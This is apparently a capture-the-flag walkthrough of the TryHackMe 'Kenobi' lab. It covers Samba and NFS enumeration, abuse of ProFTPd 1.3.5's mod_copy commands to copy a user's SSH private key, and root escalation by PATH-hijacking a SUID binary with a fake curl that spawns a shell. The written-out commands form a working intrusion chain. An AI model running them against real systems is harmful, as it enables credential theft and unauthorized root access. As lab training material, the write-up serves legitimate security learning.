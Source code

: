 # Kenobi Walkthrough - Tryhackme

![Kenobi](./logo.png "Kenobi")

[Kenobi](https://tryhackme.com/room/kenobi) is a nice room which exploits ProFtpd and then use SUID binary to escalate privileges.


### Task 1 - Deployment of Machine
1. Deploy the machine and scan for open ports in it.
2. Running Nmap on the host shows 7 ports are open.
    > nmap -sC -sV -p- [HOST-IP] 
    
    ![Nmap Scan Result](./nmap-res.png "Nmap Scan Result")


Nmap script tells a lot about the host. The following points are to be noted here
- The host is running Linux.
- There's a website running on port 80, which has 1 disallowed entry in `robots.txt`, also the script found an `admin.html` page. 
![Robots](./robots.png "robots.txt screenshot")

- `admin.html` is just a "trap".
- Nmap shows that the host is running samba. Let's enumerate it, which is also the next task.

### Task 2 - Enumerating Samba Shares

Samba has two ports 139, 445. <br />
![Samba Ports](./samba.png "Samba Ports")

Nmap can enumerate Samba shares using nse scripts.
> nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse [HOST-IP]

Another way to do it is using the `smbclient`.
> smbclient -N -L //[HOST-IP]/

The `-N` does not check for password and `-L` is to list the shares available.

![Samba Shares](./samba_shares.png "Samba Shares")

1. Host has 3 samba shares, of which `anonymous` is of our interest.

Now, connect to the `anonymous` share.
> smbclient -N //[HOST-IP]/anonymous

![Anonymous Share](./anonymous.png "Anonymous Share")

You can recursively download the SMB share too. Submit the username and password as nothing.
> smbget -R smb://[HOST-IP]/anonymous

2. There is a **log.txt** file in the share.

`log.txt` conatains information about SSH key and ProFTPD and Samba configurations.
![log.txt](./log1.png "log.txt")
![log.txt](./log2.png "log.txt")
This information might be useful later.


3. FTP is running on port **21**.

Earlier nmap port scan had shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. 

In our case, port 111 is access to a network file system. Let's use nmap to enumerate this.
> nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount [HOST-IP]

![nfs](./nfs.png "Nmap script result")

4. What mount can we see? **/var**

### Task 3 - Gaining Initial Access: Exploiting ProFtpd

1. From Nmap port scan result, ProFtpd version is **1.3.5**.

Checking the Exploit-DB for ProFtpd
> searchsploit proftpd

![xdb](./xdb.png)

2. There are **3** exploits for this version of Proftpd.

There is an exploit on the `mod_copy module`. The mod_copy module implements SITE CPFR and SITE CPTO commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Now since the FTP service is running as kenobi user(from log.txt) we can get the private key of kenobi using SITE CPFR and SITE CPTO commands.
> nc [HOST-IP] 21

![Exploiting FTP](./cpto.png)

We put the private key in `var` because it can be mounted using nfs.

Mount the `/var` directory.
> mkdir /mnt/kenobiNFS <br />
> mount [HOST-IP]:/var /mnt/kenobiNFS <br />
> cp /mnt/kenobiNFS/tmp/id_rsa .

We now have the private key of kenobi, use this to log in as kenobi and get the user flag.
> ssh -i id_rsa kenobi@[HOST-IP]


### Task 4 - Privilege Escalation

Search for SUID binaries in the system.
> find / -perm -u=s -type f 2>/dev/null

![Find](./find.png)

1. What file looks particularly out of the ordinary? **/usr/bin/menu** which is running as root.

Run the menu binary.
> menu

![menu](./menu.png)

2. Run the binary, how many options appear? **3**

Run strings on it to see what is happening internally.
> strings /usr/bin/menu

![strings](./strings.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).
We can create a malicious curl binary and add it to `$PATH`, so that when `menu` is executed it calls malicious curl.
> echo /bin/sh > /tmp/curl <br />
> chmod 777 /tmp/curl <br />
> export PATH=/tmp:$PATH <br />
> menu

![curl](./curl.png)

Get the root flag!